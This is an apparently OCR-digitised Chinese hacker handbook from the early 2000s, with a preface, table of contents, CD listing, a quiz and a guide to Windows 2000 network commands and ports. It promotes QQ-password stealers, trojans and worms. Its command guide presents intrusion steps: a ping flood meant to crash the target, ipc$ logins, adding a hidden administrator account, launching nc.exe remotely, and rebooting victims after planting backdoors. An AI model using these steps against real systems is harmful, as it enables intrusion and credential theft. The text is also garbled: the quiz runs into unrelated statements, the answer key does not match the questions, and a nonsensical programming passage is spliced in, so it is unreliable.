# 黑客入门实例精讲




傻瓜黑客系列 > 入门进阶手册

图12元

Power by www.hackerxfiles.net


ISBN 7-900305-65-3

9 787900 305657

特别栏目 菜鸟必读 经典入侵 后门篇 经典另类研究 安全防护

## 前言

本书出版的目的是希望读者通过经典教程来提高网络安全技术，主要部分是利用 VB 编写最简单、最实用的程序，内容非常有价值！其难易程度适合 VB 初学者参考学习。

在本书中，内容全都是经典的东西，在第一章我给大家出了份黑客试卷，希望朋友们能认真答题，以了解自己的水平。

本书主要有两个栏目值得大家学习，第一种是入侵技术——可学习到各种精彩的、很少见到的黑客教程；第二种是编程技术——网络上流传的黑客工具很多，如要自己开发这种程序，相信很多读者会觉得过于高深了。只要看完本书，你就可利用 VB 来编写很多有价值的程序，达到举一反三的效果。活学活用，这才是编程最有价值的学习方法。书里的代码均有详细注释，以方便大家学习（注：本书的部分程序代码均收录在本书的配套光盘中）。

### 我的黑客生涯

计算机网络已成为人们生活中不可缺少的东西，人们可用它来做任何事情，但网络安全也逐渐成为人们的一大隐患。在我刚开始研究和学习网络安全技术时，“黑客”这一名词对我的吸引是非常大的。当时为了研究黑客和网络安全花费了我不少时间，但其中的乐趣却让我永不后悔！

相信很多朋友对网络安全不是太了解，但对黑客技术却有着浓厚的兴趣。最初我也是这样的，刚开始就想着如何去进入别人的电脑，甚至不知道冰河怎么用，导致自己中了冰河的服务端。呵呵！后来我进一步学会了利用木马入侵个人电脑，并且控制别人。再进一步就是利用 Unicode 漏洞入侵网站，修改网站主页，从中学到了许多 Windows 下的 Shell 命令。其次学会了多种 Win 系列的远程溢出漏洞入侵，并且更加深刻地了解了 Windows 下的许多命令。为加强自己在 Win2k 的修行，后来就开始学习 MCSE，最后经过努力，终于考到了证书。

后来我对 Win2k 系统不再迷恋，认识到想提高自己的安全技术必须学习 Linux、Sun Os、*bsd 等系统，不过这些系统不像 Windows 那样人性化，而且学起来非常枯燥。不过我还是坚持下来了，发现安全技术不只是这些，在编程方面也发挥得非常出色，于是开始学习 C 语言及 VB。学习期间，我攻击网站的意识逐渐消失，迷恋在编程生活中……

以上就是我的简略“黑客”生涯。呵呵！不知大家都有什么样的“黑客”经历？

### 作者黑客论

我认为以下 5 种人可称得上黑客：

- 1. 喜欢发掘程序系统内部、实现细节的人，在这种发掘过程中，他们延伸并扩展着自己的能力，这和只满足于学习有限知识的人截然不同。
- 2. 那些狂热沉浸于编程乐趣的人，而且他们不仅仅在理论上谈及编程。
- 3. 一个高超的程序设计专家。
- 4. 喜欢智力挑战、并创造性地突破各种环境限制的人。
- 5. 一个恶意的爱管闲事的家伙，他在网络上逡巡溜达的同时，善于发现一些敏感信息。

我自己认为属于第 4 种类型。呵呵，不知大家是哪种类型呢？

### 黑客基本技术

我自认为要想成为一名黑客，最起码要先从精通使用各种操作系统（可熟练使用 shell 命令）开始，之后才能进一步学习编程之类的东西。由于当时也没人教我什么，所以学习起来费了不少劲。我学习 Windows 系列的 Shell 命令还是在利用当年的 Unicode 漏洞时才懂的。但当时我学这些命令时一点也不觉得乏味，因为学习命令是为了要用到它，而不是什么命令都去学，导致最后什么都记不住，这是很重要的！

### 个人档案

网名：江户川－柯南        姓名：姜超
QQ ：15052570              ICQ ：246356059
E-mail: vv_cool@sina.com
爱好：游泳、篮球、听摇滚、网络安全

# 黑客入门实例精讲

# 目录

### 特别栏目

- 6 黑客试卷

### 菜鸟必读

- 8 菜鸟必读前言
- 9 Windows2000 网络命令大全
- 10 常用操作系统端口分析
- 12 三种操作系统文件的对比
- 12 Win2k 与 Linux 命令对照表
- 13 Linux 常用命令列表
- 14 黑客术语

### 编程篇

- 15 编程前言
- 16 简单打造盗QQ程序
- 18 打造自己的文件夹伪装程序
- 20 防止软件到期后修改时间继续使用的漏洞
- 22 给自己的软件加补丁功能
- 24 使用VB给子程序打造使用限制功能
- 25 修补流光编写的失误
- 27 制作windows 9x登陆桌面验证程序
- 29 制作自己的 SuperScan
- 32 手把手打造自己的 CGI 漏洞扫描程序
- 33 写自己的FTP带字典破解程序
- 36 打造有个性木马
- 40 如何编写木马的隐身术
- 42 用 VB 简单打造蠕虫病毒
- 44 编写自己的防毒软件
- 46 浅谈 VB 盗取传奇的木马

### 经典入侵

- 48 经典入侵前言
- 49 一次 SMB 会话劫持之网页陷阱入侵
- 52 用任意密码入侵 Win2k 系统
- 53 突破4台防火墙之 DDoS 攻击实录
- 56 利用嗅探器进行全面渗透
- 60 MY SQL数据库典型入侵
- 61 交换式环境下的会话劫持
- 64 卫星定位后的黑客反击战
- 68 一次综合性入侵
- 71 一次 ASP 配置不当造成的入侵
- 74 用 ASP 口令验证漏洞突破网页验证限制
- 77 微软巨型漏洞分析

# 目录

- 80 一次典型的入侵分析
- 84 一次奇特的入侵

## 后门篇

- 86 后门篇前言
- 87 Linux 常用后门分析
- 89 充分利用系统自带程序做后门
- 91 利用 DLL 木马偷取帐号
- 93 网络分身术
- 95 3389下的后门检测
- 96 高手们的后门技术
- 98 让被禁用的 Guest 帐户以管理员身份登陆

## 经典另类研究

- 100 经典另类研究前言
- 101 另类方式安装木马
- 102 如何在命令行下修改本地和远程端口
- 103 克隆 Win2k 帐号以及临时隐藏帐号的方法
- 108 手工躲过病毒防火墙的方法
- 109 由一次被恶意攻击联想到的后门技巧
- 111 NC 的特别用处
- 113 Fluxay 永垂不朽
- 115 超级终端中控制其他用户小技巧
- 117 利用肉鸡让自己免费上网
- 119 巧妙利用系统自带黑客工具

# 安全防护

- 121 安全防护前言
- 122 Sun Os 基本安全配置
- 126 Win2000 安全配置大全

黑客入侵实例精讲
出版:吉林科学技术出版社
监制:孙胜利
主编:覃旭
本书作者:黄彬
编辑部主任:孙志强
编辑部:Zero 果子 土豆 木头虫 小木头 冰冰
特约编辑:Python 刺客 雪莲 小C.ABYSS 小刘
光盘部:刘佳(主任) 焦生欣
美编:何有接 E-mail:heyan@popsoft.com.cn
排版:何有接
E-mail:hackerxfiles@263.net
邮购查询E-mail:chaxun@263.net
邮购查询电话:(010)88560080
联系电话:(010)88561473/88561472
联系人:赵晶 小邵
邮编:100037
定价:12元(光盘+手册)

# 黑客入门实例精讲

# 光盘目录

## 编程开发类

- easyhost.rar：全免费的联网PC客户端WEB服务器，将您的普通办公或家庭电脑变成一台可以向全世界提供WWW网站服务的真实主机
- smbproxy.rar：这个程序可以使用proxy方式与远程主机验证登陆
- winpatch.rar：WinPatch是一个专门制作软件升级程序或做 Patch 程序的工具
- SkSockServer：做跳板的主角，就是用它来实现远程主机的socks5代理功能的
- VB制作自己的SupperScan.rar：作者姜超用VB编写的速度很快类似SupperScan的扫描器
- 打造自己有个性的木马.rar：作者编写的一个简单的木马，代码很短，值得新手学习
- 给自己软件加补丁功能.rar
- 简单打造盗OICQ程序.rar
- 写自己的ftp带字典破解程序.rar

## 黑客动画类

- 爱情的力量
- 人鬼情未了
- 足球场上搞笑
- 真的很美味
- 美酒的诱惑
- 酒醉中的幻想
- 爱情真伟大
- 巧治脱发
- 激情中的尴尬
- 搭便车

## 工具软件类

- 菜鸟拆弹
- 英雄本色
- bombastick
- 温馨元宵节
- liumgou
- maro
- 三只手
- 跳水
- 垃圾风云
- tvshow

## 实用工具类

- nmap-3.00：最优秀的扫描工具，这是它最新的WINDOWS版本（命令行）。
- 灰鸽子[辐射版]测试 v0.2 完整安装版：这是一个多元化的远程控制工具。
- MONSTER字典 2.0：可以生成任何字典文件，可与其他破解软件配合使用，2.0版去除了一些BUG。
- 传奇猎手：传奇猎手能够截取传奇帐号、密码、区域、服务器并发送到您指定的信箱。
- SupperScan.rar：作者用VB编写的速度很快类superscan的扫描器

# 光盘技术 2003

3D Flash Animator：一套理想的Flash动画制作软件，可以制作出高水准具互动效果的3D Flash动画，提供了完整的树状标示图，对于Layer的深度亦不设限。

QQ号码申请精灵：一、先运行QQ注册新用户 二、正常填入将要注册各项信息 三、一直选择<下一步>直到最后一屏 四、运行本软件，点击启动

IE至尊保护器：IE至尊保护器是一个全方位保护IE浏览器主页、搜索引擎、IE标题的IE保护工具

CMOS菜单：不进CMOS而直接管理CMOS（无需密码），如备份、恢复CMOS的值，直接打开、关闭软驱等。机房、网吧必备DOS、Windows下都可运行。


精通视窗操作系统教程：本教程分为：1. 操作系统概述；2. Windows 2000/XP的体系结构；3. 进程和处理器管理。

骇世黑客：

第一章 罪抑或牛仔：黑客文化略谈

第二章 天才与鬼才之间：黑客精英轶事(1)

第二章 天才与鬼才之间：黑客精英轶事(2)…

黑客攻防指南：内容主要是一些黑客与网络安全及病毒相关的技术文章等；每期杂志共有大小文章教程100篇。

黑客入侵之路：不错的初学者教材。分为：扫描篇、入侵篇、跳板篇、终端篇、主页篇、QQ篇、工具篇

C语言学习系统：C 语言发展如此迅速，而且成为最受欢迎的语言之一，主要因为它具有强大的功能。许多著名的系统软件，如DBASE Ⅲ PLUS、DBASE Ⅳ都是由C语言编写的。

Sniffer演示录像

安全焦点文档精华

中国鹰派专用安全教程

无间道香港结局



网页攻击的另类利用：利用TCP/IP攻击的工具，现在还没有绝对可以防范的方法；主要就是在路由器上验证路由表的IP地址路由表中没有数据包的源IP路由就丢弃这个包。

3COM交换机远程控制操作：1.TELNET上3COM交换机型号：3300。输入帐号和密码。2.登陆成功后，会看到命令操作菜单…

bbsXP论坛入侵：W 我们首先在www.haowawa.com找到代码复制，然后建立一记事本粘贴上去，保存完毕后，把后缀名改PL。

利用cookie欺骗获得动网管理权限

手工克隆管理员帐号：1.在肉鸡上下载PUS.EXE，并打开任务管理器，在进程中找到WINLOGON 的 PID 值。2.展开注册表HKLM\SAM\SAM\…

入侵Sun Solaris系统：SUN公司的UNIX系统Sun Solaris /bin/login验证相继出现了重大的安全漏洞受影响系统为：Sun公司的UNIX系统…

命令行下获取登陆口令

# 黑客特别栏目 黑客练习题实例精讲

前言 设立“特别栏目”的目的是让大家了解自己的网络安全技术处于什么水平，以方便制定学习计划！这里准备的试题的难易程度都是菜鸟级别，毕竟初学者占的比较多！试卷中的考试题包括Windows、Linux两种操作系统的知识，还有病毒以及网络安全的所有内容，希望大家要认真，独立答题。

# 黑客晋级试卷

看看下面的题目，大家是不是对自己的网络安全或黑客技术水平很茫然啊？都清楚自己处在什么技术阶段吗？如果你想知道，就请做这张黑客考卷吧！这是我特别为大家准备的。

说明：大家开始答题时，请不要参考任何资料，用你现在的知识去答，这样才能发现自己的真实水平，以确定你的位置（本试卷的难易程度在低—中—菜鸟水平），希望大家能考出好成绩！

## 一、单项选择题（每题2分，共15道题）

- 1. 黑客在网络中的最终目的是什么？ （ ）
A: 搞破坏	B: 实现资源共享
C: 盗取信息	D: 为了有趣

- 2. 3306默认的提供什么服务的端口？ （ ）
A: MySQL	B: 超级终端
C: Ms-SQL	D: 远程登陆

- 3. 编写HTML最少具备什么语言？ （ ）
A: 汇编语言	B: C语言
C: 汇编+C语言	D: 计算机语言

- 4. 在Windows下用什么命令来查看网络是否连通？ （ ）
A: ping	B: netstat	C: ipconfig	D: nslookup

- 5. Linux下用什么命令能看到隐藏目录？（ ）
A: dir	B: Ls	C: Ls -al	D: dir /q

- 6. 下面哪种文件不能染上病毒？ （ ）
A: .exe	B: .VBS	C: .rar	D: 都有可能染上

- 7. 下面哪个是面向连接的服务？ （ ）
A: UDP	B: FTP	C: TCP	D: 以上全是

- 8. 下面哪种系统主要是为网络服务天生设计？（ ）
A: UNIX	B: Win2k	C: Win98	D: Win95

- 9. Linux中，Shadow这个文件是干什么用的？（ ）
A: 密码的备份文件	B: 用户信息文件	C: 隐藏文件	D: 存放加密过的密码

- 10. IDS是什么？（ ）
A: 新一代防火墙	B: 入侵检测系统
C: 智能杀毒软件	D: 病毒扫描器

- 11. TFTP服务的默认端口是什么？ （ ）
A: 69	B: 3306	C: 5631	D: 21

- 12. 在Linux下，管理员默认帐号名称是？（ ）
A: Admin	B: root	C: Administrator	D: guest

- 13. 在Win2k下，管理员默认帐号名称是？ （ ）
A: Admin	B: root	C: Administrator	D: guest

- 14. IIS5.0是架在什么系统上的服务器？ （ ）
A: Win2000	B: Linux	C: Sun Os	D: FreeBsd

- 15. 下面哪种服务器在网络里被使用的最多？（ ）
A: IIS5.0	B: Apache	C: Zens	D: Httpd

## 二、填空题（每题1分，共11道题，最后一题4分）

- 1. 能被计算机直接识别的语言是______，现在通常用的语言是______。
- 2. 大家常用的QQ使用的是______协议。
- 3. Win2k采用了安全的分区格式，它是______。

6 黑客X档案

# 黑客入门实例精讲 核心内参 [五]

4. Windows NT的出现并不是没有原因的。在Win9x之中，对网络的支持是相当薄弱的。
5. Windows NT的稳定性是所有Windows之中最好的。
6. 网络操作系统，实际上就是指能够控制和管理网络资源的操作系统。
7. Unix系统是一种多用户、多任务的操作系统，它由AT&T贝尔实验室开发。
8. 网络操作系统主要由文件服务、打印服务、数据库服务、通信服务、信息服务、分布式服务、网络管理服务、Internet/Intranet服务等组成。
9. Windows NT Server的价格比Windows NT Workstation高很多，因为NT Server对硬件的要求也更高。
10. 在DOS下退出UCDOS的命令是QUIT。
11. UNIX的源代码大多是用C语言编写的。
12. DOS的命令分为内部命令和外部命令两种。
13. 目前流行的服务器操作系统主要有Unix、Linux、NetWare和Windows NT/2000/2003。
14. 在Windows 2000中，系统默认的管理员账号是Administrator。
15. UNIX系统中的通信方式有三种：共享内存、管道和消息队列。
16. 操作系统的功能是管理计算机的硬件和软件资源。
17. 进程是程序的一次执行，它有动态性、并发性、独立性、异步性和结构性五个基本特征。
18. 在Windows NT中，域和工作组的区别是：域中有域控制器，可以对用户进行集中管理。
19. 在网络中，为了标识计算机，需要给计算机命名，在Windows中，计算机名可以由字母、数字和连字符组成，最大长度为15个字符。
20. 目前，计算机病毒的主要特点是传染性、隐蔽性、破坏性和潜伏性。
21. 在Internet中，IP地址由网络号和主机号两部分组成，其中网络号用于标识一个网络，主机号用于标识网络中的一台主机。
22. 在Internet中，域名服务器（DNS）的作用是将域名解析为IP地址。
23. 目前，比较常见的网络拓扑结构有总线型、星型、环型、树型和网状型。
24. 在OSI参考模型中，将网络体系结构分为七层，从下到上依次为物理层、数据链路层、网络层、传输层、会话层、表示层和应用层。
25. 在TCP/IP参考模型中，将网络体系结构分为四层，从下到上依次为网络接口层、网际层、传输层和应用层。
26. 在Internet中，WWW服务使用的协议是HTTP，FTP服务使用的协议是FTP，电子邮件服务使用的协议是SMTP、POP3。
27. 在Internet中，用于文件传输的协议是FTP，用于远程登录的协议是Telnet，用于电子邮件的协议是SMTP和POP3。
28. 在Internet中，IP地址的长度是32位，通常用点分十进制表示。
29. 在Internet中，域名是由若干部分组成，各部分之间用点隔开，最右边的部分是最高级域名。
30. 在Internet中，常用的搜索引擎有Google、百度、Yahoo等。
31. 在Internet中，常用的浏览器有Internet Explorer、Netscape Navigator、Firefox等。
32. 在Internet中，常用的下载工具有FlashGet、NetAnts、Thunder等。
33. 在Internet中，常用的即时通讯工具有QQ、MSN、ICQ等。
34. 在Internet中，常用的网络安全工具有防火墙、杀毒软件、入侵检测系统等。
35. 在Internet中，常见的网络攻击手段有拒绝服务攻击、缓冲区溢出攻击、欺骗攻击等。
36. 在Internet中，常见的网络防御手段有防火墙、入侵检测系统、数据加密等。
37. Windows 9x和Windows 2000的主要差别在于：Windows 9x是16位和32位混合的操作系统，而Windows 2000是纯32位的操作系统。
38. 在Windows中，可以用于查看和设置计算机硬件配置的工具是设备管理器。
39. 在Windows中，可以用于查看和设置计算机软件配置的工具是注册表编辑器。
40. 在Windows中，可以用于查看和设置计算机用户账户的工具是用户账户管理。
41. 在Windows中，可以用于查看和设置计算机网络的工具是网络连接。
42. 在Windows中，可以用于查看和设置计算机安全的工具是本地安全策略。
43. 在Windows中，可以用于查看和设置计算机性能的工具是性能监视器。
44. 在Windows中，可以用于查看和设置计算机事件日志的工具是事件查看器。
45. 在Windows中，可以用于查看和设置计算机服务的工具是服务管理器。
46. 在Windows中，可以用于查看和设置计算机进程的工具是任务管理器。
47. 在Windows中，可以用于查看和设置计算机磁盘的工具是磁盘管理器。
48. 在Windows中，可以用于查看和设置计算机文件的工具是资源管理器。
49. 在Windows中，可以用于查看和设置计算机命令的工具是命令提示符。
50. 在Windows中，可以用于查看和设置计算机注册表的工具是注册表编辑器。

以上问题就是测量大家现在的实力水平，这些题目都是基础知识，希望大家能轻松通过！

## 看看你现在的水平

### 黑客入门答案

1. 黑客就是一些喜欢挑战的人，他们通常有很高的计算机技术，他们喜欢发现计算机系统中的漏洞，并想办法修补这些漏洞。
2. 黑客分为两种：一种是传统意义上的黑客，他们喜欢发现漏洞并公布漏洞；另一种是骇客，他们利用漏洞进行破坏。
3. 黑客守则包括：不恶意破坏任何系统；不修改任何系统文件；不泄露任何机密信息；不攻击任何个人用户；不攻击任何政府机构。
4. 黑客应该学习的基础知识包括：操作系统、网络协议、编程语言、数据结构、算法、数据库等。
5. 黑客应该掌握的常用工具包括：扫描器、嗅探器、破解工具、后门工具等。
6. 黑客应该具备的素质包括：耐心、细心、恒心、好奇心、创造力等。
7. 黑客应该遵守的法律法规包括：《中华人民共和国网络安全法》、《中华人民共和国计算机信息系统安全保护条例》等。
8. 黑客应该具备的职业道德包括：不恶意破坏、不窃取信息、不侵犯隐私等。
9. 黑客常见的入侵步骤包括：信息收集、漏洞扫描、漏洞利用、权限提升、植入后门、清除痕迹等。
10. 黑客常见的攻击手段包括：端口扫描、漏洞利用、密码破解、拒绝服务攻击、木马攻击等。
11. 黑客常见的防御手段包括：安装防火墙、安装杀毒软件、更新系统补丁、设置强密码等。
12. 黑客常见的编程语言包括：C、C++、Java、Python、Perl、Ruby等。
13. 黑客常见的网络协议包括：TCP/IP、HTTP、FTP、SMTP、POP3等。
14. 黑客常见的操作系统包括：Windows、Linux、Unix等。
15. 黑客常见的数据库包括：MySQL、Oracle、SQL Server等。
16. 黑客常见的工具包括：Nmap、Wireshark、Metasploit、Burp Suite等。

60分以下：你还需要好好学习基础知识。
60-70分：你已经有了一定的基础，还需要继续努力。
70-80分：你的基础不错，可以尝试学习更深入的知识。
80-90分：你的水平已经很高了，可以尝试进行一些实际的渗透测试。
90分以上：你已经是黑客高手了，可以去参加一些CTF比赛了。

《黑客X档案》


如果在 Windows 上使用双缓冲，则只有在创建一个窗口类时注册窗口类，否则注册窗口类后，依然在每个窗口类的后面添加代码，注册窗口类，在注册窗口类之前，必须注册窗口类。窗口类注册后，必须调用 InvalidateRect 函数，使窗口无效，从而重绘窗口。在 Windows 中，窗口类注册后，必须调用 UpdateWindow 函数，使窗口重绘。

## 前言

## 第一章 图形图像编程

### 1.1 图形设备接口

在看本书前，如果大家没有什么Win2k网络命令基础，那么请看以下说明。我把在Win2k里黑客和网管常用的命令都集中在这个里了，也是大家必须要会的东西，如果你都很熟悉了，可以跳过本文。



### 网络命令以及参数网络详细说明如下：

#### Ping

用来测试自己和对方的网络是否连通，通常用它来得到对方的IP地址。它也可做攻击命令使用。

例：`ping -l 65500 -t 127.0.0.1`（对某个地址连续发送65500大小的数据包，直到对方死机为止，对付Win98特别好使）

#### ipconfig

用来查看机器有多少块网卡和本机的IP地址。

#### Netstat -a

用来查看自己系统开的端口，通常用来查看自己系统是否中了木马。如果发现出来的信息中有7626这个端口，那你的机器可能中了冰河木马了。

#### Netstat -n

用来查看自己的机器正在和哪些机器的哪个端口进行连接。

#### telnet

这个命令非常实用，它可以与远方做连接，不过正常下需要用户名、密码。如果你给对方种了木马，就可直接连到这个木马打开的端口。

#### FTP

文件传送协议命令，可与对方机器连接后上传和下载文件。

下载对方机器上东西的命令：
`get c:\exe.dw`

上传自己的东西到对方机器：
`put c:\index.html`

#### finger

用来查看对方最近有哪些用户登陆，黑客通常用他来得到对方用户名。

使用命令：`finger username@host`

#### tracert

跟踪和显示数据在两台机器之间的传输路径。

使用格式：`tracert 参数 计算机名(IP)`

#### nbtstat

显示NetBIOS名列表，列表中包含的信息有计算机名、工作组、开放的网络服务等。

使用命令：`nbtstat -a 计算机名`

#### Net use

①知道对方的用户名和密码后可进行ipc$连接，命令如下：

`net use \\127.0.0.1\ipc$ "123" /user:"jc"`

(jc 为用户名，123 为密码)

❷退出 ipc$ 连接的命令：

`net use \\127.0.0.1\ipc$ /delete`

❸把对方默认共享的文件夹映射到自己的机器里，命令如下：

`net use H: \\127.0.0.1\c$` （把对方的 C 盘映射到自己电脑的 H 盘）

#### Net send

Win2k 机器之间发送消息的命令。

使用格式：`net send IP "你好"`

#### arp

网管专用，用来维护 arp cache，可显示或增减 arp cache 里的项目。

使用命令：`arp -a` （显示当前的 arp 列表）

#### Net time

用来查看对方的网络时间。

使用命令：`net time \\127.0.0.1`

at 在指定时间启动对方机器的某个文件：

`at \\127.0.0.1 12:30 nc.exe`

#### Net user

用来添加用户的命令：

`net user jiangchao 123 /add` （jiangchao 为用户名，123 为 jiangchao 这个用户的密码）

用来激活 Guest 用户的命令：

`net user guest /active:yes`

#### Net localgroup

黑客常把添加的用户升级到管理员权限：

`net localgroup administrators jiangchao /add`

#### Net start

查看机器都开了什么服务，用来了解自己的机器是否开了后门服务。也可用来启动某个服务。例如启动 telnet 服务：`net start telnet`

#### Net stop

用来停止某个服务：

`net stop telnet` （停止 telnet 服务）

#### iisreset /reboot

用来重新启动 Win2k 系统的命令，对方的屏幕会出现个对话框，写着谁引起的这次启动，离重起还有多少秒。黑客安完后门必须重新启动对方机器而用到的命令。

> 以上就是笔者总结的在 Win2k 机器上使用率非常多的网络命令。要想做个优秀的网管或黑客，那么熟悉操作系统的命令是必要的。如果连最基本的命令都不会，以后很难网络安全上有所发展！如有不全，还请谅解！



了解了网络常用的命令后，接下来我们了解必不可少的东西——端口。在网络里它十分重要，如果不知道相应的端口是干什么的，你就不知道机器上有什么隐患。

10 黑客X档案

### 常用端口详细分析如下：

- 7 Echo
你能看到许多人搜索Fraggle放大器时，发送到x.x.x.0和x.x.x.255的信息。

- 11 sysstat
这是UNIX的一种服务，它会列出机器上所有正在运行的进程以及是什么启动了这些进程。这为入侵者提供了许多信息，从而威胁机器的安全，如暴露已知某些弱点或帐户的程序。

- 13 daytime
一天的时间，用户可读格式。

- 21 ftp
最常见的攻击者用于打开“anonymous”的FTP服务器的方法，这些服务器带有可读写目录。

- 22 ssh
PcAnywhere建立TCP和这一端口的连接可能是为了寻找ssh。

- 23 Telnet
远程登陆端口。

- 25 smtp
发送邮件的端口。

- 53 DNS
域端口，黑客通常试图进行区域传递(TCP)，欺骗DNS(UDP)或隐藏其它通讯。因此防火墙常常会过滤或记录。

- 69 TFTP
是个UDP端口。Unicode漏洞入侵中常用它来传送文件。

- 79 finger
Hacker用于获得用户信息，从而进行对用户的密码破解。

- 80 http
Web服务端口，可用来浏览网页。黑客常用80端口使用CGI攻击。

- 110 POP3
用于客户端访问服务器端的邮件服务。POP3服务有许多公认的弱点。

- 111 rpc
是扫描系统查看允许哪些RPC服务的最早的一步。常见RPC服务有：rpc.mountd、NFS、rpc.statd、rpc.csmd、rpc.ttybd、amd等。

- 139 NetBIOS
通过这个端口进入的连接试图获得NetBIOS/SMB服务。

- 1080 SOCKS
这一协议以管道方式穿过防火墙，允许防火墙后面的许多人通过一个IP地址访问Internet。

- 1433 mssql
MS-SQL数据库端口，通常存在SA用户密码为空的漏洞。

- 3306 mysql
MYSQL数据库端口，通常也出现root密码为空的情况。

- 3389
Win2k的超级终端，通过连接这个端口可以界面方式控制对方。

- 5631 pcAnywhere
